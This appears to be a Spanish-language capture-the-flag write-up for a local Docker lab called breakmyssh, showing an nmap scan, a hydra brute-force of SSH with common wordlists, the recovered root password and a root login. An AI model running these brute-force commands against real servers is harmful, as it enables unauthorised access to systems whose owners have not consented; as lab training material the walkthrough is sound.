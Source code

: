 
------------------------
DESPLIEGUE 

```
sudo bash auto_deploy.sh breakmyssh.tar
```



--------------------
PROCEDIMIENTO

Tenemos la IP: `172.17.0.2`.


-------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Tenemos el puerto 22, SSH.

![[Pasted image 20240915033401.png]]


Como tenemos un puerto 22 vamos a usar hydra con el siguiente comando:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```

Y nos sale lo siguiente:

![[Pasted image 20240915035220.png]]

password : estrella
y es root pues ya pondríamos :

```
ssh root@172.17.0.2
```

![[Pasted image 20240915035448.png]]


Y ya estamos adentro !!
